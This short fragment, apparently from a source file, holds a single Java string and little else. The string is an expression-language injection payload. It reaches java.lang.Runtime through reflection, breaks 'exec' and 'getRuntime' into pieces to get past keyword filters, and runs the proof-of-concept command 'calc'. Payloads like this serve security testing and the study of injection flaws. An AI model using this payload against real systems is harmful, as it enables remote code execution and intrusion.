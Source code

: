 ```java
"''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod(\"ex\"+\"ec\",T(String)).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod(\"getRu\"+\"ntime\").invoke(null),'calc')";
        
```
